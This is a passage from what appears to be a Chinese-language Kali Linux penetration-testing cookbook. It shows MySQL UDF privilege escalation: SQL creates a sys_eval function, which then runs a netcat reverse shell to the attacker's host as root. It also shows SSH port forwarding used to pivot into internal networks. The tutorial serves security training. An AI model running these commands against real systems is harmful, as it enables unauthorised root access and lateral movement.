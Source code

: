 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/1b701a67-b90d-4d76-bc93-cb5affcf3b9a.png)

对于 Windows 系统，命令是一样的；只是到 MySQL 的路径会有所不同。

接下来，我们创建一个`sys_eval`函数，它将允许我们以根用户身份运行系统命令。对于 Windows，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

对于 Linux，我们运行这个命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'mysqludf.so;
```

现在我们可以使用`sys_eval`来做任何我们想做的事情；例如，要进行反向连接，我们可以使用这个：

```
select sys_eval('nc –v <our IP our Port> -e /bin/bash');
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/61944af5-d653-46a7-9f81-e8248a267d63.png)

这将给我们一个作为系统根用户的反向 shell：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/f4775e23-2507-4246-846b-476e26bb1e4b.png)

还有其他方法，比如将我们当前的用户添加到 sudoers 文件中。这完全取决于我们的想象力。

# 节点跳跃 - 枢纽

一旦我们在网络上的一个系统中，我们现在需要寻找网络上的其他机器。信息收集与我们在前几章中学到的内容是一样的。我们可以开始安装和使用 nmap 来查找其他主机以及正在运行的应用程序或服务。在这个示例中，您将学习一些获取网络中端口访问权限的技巧。

# 如何做...

假设我们已经可以访问一台机器的 shell。我们运行`ipconfig`并发现该机器内部连接到其他两个网络：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/fb14066b-f091-45eb-9d44-af27a6ddd740.png)

现在我们扫描网络并发现一些机器有一些端口是开放的。您学习了一种很酷的方法，可以将网络枢纽化，以便我们可以访问我们机器上其他网络后面运行的应用程序。

我们将使用以下命令进行`ssh`端口转发：

```
ssh –L <our port> <remote ip> <remote port> username@IP
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/2617ef3b-2b5b-449a-85a1-41035e7fae03.png)

完成后，我们打开浏览器并转到我们使用的端口号：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/c6cf79ba-cab5-4f8b-824f-69386eb625b0.png)

我们将访问远程主机上运行的应用程序。
